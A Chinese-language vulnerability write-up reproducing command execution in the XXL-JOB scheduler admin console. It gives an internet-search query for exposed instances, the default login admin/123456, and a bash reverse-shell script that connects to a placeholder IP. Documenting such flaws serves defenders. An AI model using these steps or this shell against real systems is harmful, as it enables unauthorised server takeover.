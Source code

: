 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入 shell 命令任务调度获取服务器权限

## 漏洞影响

```
XXL-JOB
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心"
```

## 漏洞复现

登录后台增加一个任务

- 默认口令 admin/123456

![](images/202202101914314.png)

- 注意运行模式需要为 GLUE(shell)

![](images/202202101915543.png)

点击 GLUE IDE 编辑脚本

![](images/202202101915236.png)

![](images/202202101915343.png)

执行探测出网，和任务调用是否可执行

反弹一个 shell

```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![](images/202202101915912.png)
